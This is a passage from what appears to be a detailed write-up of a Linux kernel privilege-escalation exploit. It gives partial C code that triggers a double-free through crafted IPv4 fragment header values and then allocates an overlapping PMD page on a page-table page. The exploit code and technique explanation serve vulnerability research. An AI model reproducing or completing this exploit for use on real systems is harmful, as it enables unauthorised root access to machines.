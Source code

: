 Copy

Codeblock 5.1.2.4.1: Partial code for the exploit written in C, which sprays PTE pages and defines a macro to convert pagetable indices to virtual addresses.

##### 5.1.2.5. Triggering double-free free 2

We previously drained the PCP list and allocated a bunch of PTEs on the page entry we freed with free 1. Now, we will do free 2 to use its page freelist entry to allocate an overlapping PMD.

We need to use a very specific combination of IP header options to circumvent certain checks in the IPv4 fragment queue code. For specific details, check the relevant background info and/or technique sections.

```c
static void privesc_flh_bypass_no_time(int shell_stdin_fd, int shell_stdout_fd)
{
    // ... (spray-alloc PTEs)

	PRINTF_VERBOSE("[*] double-freeing skb...\n");

	// cause double-free on skb from earlier
	df_ip_header.ip_id = 0x1337;
	df_ip_header.ip_len = sizeof(struct ip)*2 + 32768 + 24;
	df_ip_header.ip_off = ntohs(((32768 + 8) >> 3) | 0x2000);

	// skb1->len gets overwritten by s->random() in set_freepointer(). need to discard queue with tricks circumventing skb1->len
	// causes end == offset in ip_frag_queue(). packet will be empty
	// remains running until after both frees, a.k.a. does not require sleep
	alloc_intermed_buf_hdr(0, &df_ip_header);

    // ... (rest of the exploit)
}
```

Copy

Codeblock 5.1.2.5.1: Partial code for the exploit written in C, which triggers the 2nd free of the double-free and navigates a specific IP fragment queue.

##### 5.1.2.6. Allocating the PMD

Now we have the 2nd freelist entry to the double-freed page (note that it has already been allocated by the PTE, so there are not 2 freelist entries at the same time), we can allocate the overlapping PMD to this page. This is incredibly complicated.

```c
static void privesc_flh_bypass_no_time(int shell_stdin_fd, int shell_stdout_fd)
{
    // ... (free 2 of skb)

	// allocate overlapping PMD page (overlaps with PTE)
	*(unsigned long long*)_pmd_area = 0xCAFEBABE;

    // ... (rest of the exploit)
}
```
